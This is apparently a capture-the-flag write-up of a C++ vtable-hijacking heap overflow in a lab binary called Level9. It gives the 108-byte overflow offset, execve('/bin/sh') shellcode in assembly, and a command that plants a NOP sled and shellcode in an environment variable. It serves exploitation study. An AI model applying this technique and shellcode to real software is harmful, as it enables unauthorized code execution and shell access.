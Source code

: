 # Level9 - C++ Vtable Hijacking Analysis

## Technical Deep Dive

### C++ Object Memory Layout
Level9 exploits C++ vtable mechanisms through buffer overflow. The vulnerability lies in the object layout and method implementation.

### Class N Structure Analysis
```assembly
# Constructor Analysis (from disassembly)
- Allocates 104 bytes (0x68) on heap
- Sets vtable pointer at offset 0  
- Initializes annotation buffer at offset 4
- Buffer size: 100 bytes

# setAnnotation Method Analysis  
- Uses memcpy without bounds checking
- Copies user input directly to annotation buffer
- No validation of input length
```

### Heap Layout Discovery
```
Object 1: 0x804a008
├── [0x804a008] vtable pointer
└── [0x804a00c] annotation buffer (100 bytes)

Object 2: 0x804a078  
├── [0x804a078] vtable pointer ← Target for corruption
└── [0x804a07c] annotation buffer (100 bytes)
```

### Vtable Hijacking Mechanism
1. **Overflow Calculation**: 
   - Distance from obj1.annotation to obj2.vtable = 108 bytes
   - Payload: 108 'A' + target_address

2. **Execution Flow**:
   ```
   obj2.operator+(obj1) → 
   *obj2.vtable[operator+_offset] → 
   shellcode_address
   ```

3. **Address Targeting**:
   - Environment variable: EGG contains NOP sled + shellcode
   - Runtime address discovery via GDB
   - Reliable targeting through NOP sled

### Shellcode Analysis
Used execve("/bin/sh") shellcode:
```assembly
xor eax, eax        ; Clear eax
push eax            ; Null terminator
push "/sh\x00"      ; Push "/sh"
push "/bin"         ; Push "/bin" 
mov ebx, esp        ; ebx = "/bin/sh"
push eax            ; argv[1] = NULL
push ebx            ; argv[0] = "/bin/sh"
mov ecx, esp        ; ecx = argv
xor edx, edx        ; edx = envp = NULL
mov al, 0xb         ; syscall number for execve
int 0x80            ; Execute syscall
```

### Environment Variable Storage
Strategy: Store shellcode in environment variable for stable addressing
```bash
export EGG=$(python2 -c "print '\x90' * 200 + shellcode")
```

Benefits:
- Predictable location in process memory
- Large NOP sled for targeting flexibility  
- Survives across program runs

### Debugging Evidence
Successful vtable hijacking confirmed:
- EIP reaches shellcode addresses (0x6850c031)
- Demonstrates successful execution flow redirection
- Proves vtable pointer corruption works

### Exploitation Summary
- **Vulnerability**: Buffer overflow in C++ object method
- **Technique**: Vtable pointer corruption  
- **Target**: Adjacent object's vtable on heap
- **Payload**: Environment variable shellcode
- **Result**: Arbitrary code execution (vtable hijacking confirmed)

This demonstrates advanced heap-based exploitation in C++ environments using object-oriented programming constructs as attack vectors.